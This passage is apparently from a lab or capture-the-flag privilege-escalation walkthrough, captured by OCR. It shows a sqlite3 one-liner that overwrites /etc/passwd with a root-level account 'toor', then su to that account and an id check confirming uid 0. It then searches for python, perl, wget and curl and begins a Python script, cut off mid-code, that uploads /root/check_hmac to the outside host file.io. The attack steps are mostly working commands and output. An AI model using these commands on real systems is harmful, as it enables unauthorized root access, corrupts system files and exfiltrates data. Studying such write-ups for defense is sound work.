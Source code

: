 > [!TIP] Python can generate crypt(3) hashes.
> The following example uses the password 'root' with salt 'gh':
> ~~~
> python3 -c 'import crypt; print(crypt.crypt("root","gh"))'
> ~~~

```
passwd=/etc/passwd; sqlite3 /dev/null -cmd ".output $passwd" 'select "toor:ghTxbhWkM20DQ:0:0:root:/root:/bin/bash";'
```

> Then, we use the 'su' command with our configured password 'root' to elevate our privileges:

```
su toor
```

> ~~~
> Password:
> ~~~
> 
> enter the password 'root'

```
root
```

> ~~~
> bash: cannot set terminal process group (9): Inappropriate ioctl for device
> bash: no job control in this shell
> 
> The 'id' command confirms we are root user (uid=0)

```
id
```

> ~~~
> uid=0(toor) gid=0(root) groups=0(root)
> ~~~
> 
> Check for advanced languages running on the server that we may use: 

```
find /*bin /usr/*bin -type f | grep -P "(python|perl|ruby|wget|curl)"
```

> ~~~
> /usr/bin/perl5.36.0
> /usr/bin/perl
> /usr/bin/python3.11
> ~~~
> 
> We can exfiltrate any file using python3.11 with the following script:

```
import urllib.request
import json
import os

url = 'https://file.io'
file_path = '/root/check_hmac'
boundary = '-------------boundary'

# Prepare the form data
with open(file_path, 'rb') as f:
    form_data = (
        f'--{boundary}\r\n'
        f'Content-Disposition: form-data; name="file"; filename="{os.path.basename(file_path)}"\r\n'
        'Content-Type: application/octet-stream\r\n'
```